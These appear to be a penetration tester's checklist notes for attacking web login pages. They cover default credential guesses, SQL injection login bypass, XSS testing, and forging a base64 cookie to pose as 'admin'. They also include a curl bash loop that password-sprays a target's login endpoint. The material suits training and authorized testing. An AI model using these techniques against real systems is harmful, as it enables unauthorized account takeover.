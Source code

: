 https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/

#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL`

#### Googling
- [ ] Google for Default Creds!!

#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]

- [ ] Inject into registration page, then login page
![[Pasted image 20220927104458.png | 750]]

![[Pasted image 20220927104516.png | 750]]

#### XSS
- [ ] Test for XSS.
[[7._XSS]]

#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.

Check cookies

![[Pasted image 20220105201411.png]]

`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`

```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```

![[Pasted image 20220105201601.png]]

```bash - kali
echo '{"username":"admin"}' | base64
```

`eyJ1c2VybmFtZSI6ImFkbWluIn0K`

![[Pasted image 20220105201823.png]]

#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
![[Pasted image 20220905125447.png]]
```
"role": "admin",
```

![[Pasted image 20220902153332.png]]

#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```
